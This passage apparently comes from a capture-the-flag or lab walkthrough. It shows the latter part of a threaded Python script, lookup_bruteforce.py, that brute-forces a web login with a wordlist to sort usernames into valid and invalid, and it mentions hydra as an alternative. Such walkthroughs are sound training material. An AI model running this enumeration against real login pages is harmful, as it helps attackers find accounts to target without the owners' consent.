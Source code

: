 ```python
                invalid_usernames.append(username)
    except requests.RequestException as e:
        print(f'[-] Error: {e}')


# Enumerating the usernames

def enumerate_usernames(wordlist):
    threads = []
    # We are opening the wordlist file and reading it, separating each line, so it can test for each username
    with open(wordlist, 'r') as f:
        usernames = f.readlines()
    try:
        # Next, create a progress bar using the tqdm library, also, creating a thread to speed up the process
        for username in tqdm(usernames, desc=f'Bruteforcing... ', unit=" usernames"):
            username = username.strip()
            if username:
                thread = threading.Thread(target=check_username, args=(url, username))
                threads.append(thread)
                thread.start()

                if len(threads) >= THREAD_COUNT:
                    for t in threads:
                        t.join()
                    threads = []
            for t in threads:
                t.join()

    except KeyboardInterrupt:
        print('\n Exiting program..')
        sys.exit(0)


# Setting up final things to be able to execute the script properly
if __name__ == '__main__':
    if len(sys.argv) != 4:
        print('Usage: python3 lookup_bruteforce.py <URl> <WORDLIST> <THREADS>')
        sys.exit(1)

    url = sys.argv[1]
    wordlist = sys.argv[2]
    THREAD_COUNT = int(sys.argv[3])
    enumerate_usernames(wordlist)
    print(f"[+] The total of invalid usernames are: {len(invalid_usernames)}")
    print(f"[+] The total of valid usernames are: {len(valid_usernames)}")
    print(f"\n[+] These are the valid usernames: {valid_usernames}")
```

With the following python code, we can brute force the usernames, this may take some time, so, we can also use the hydra way
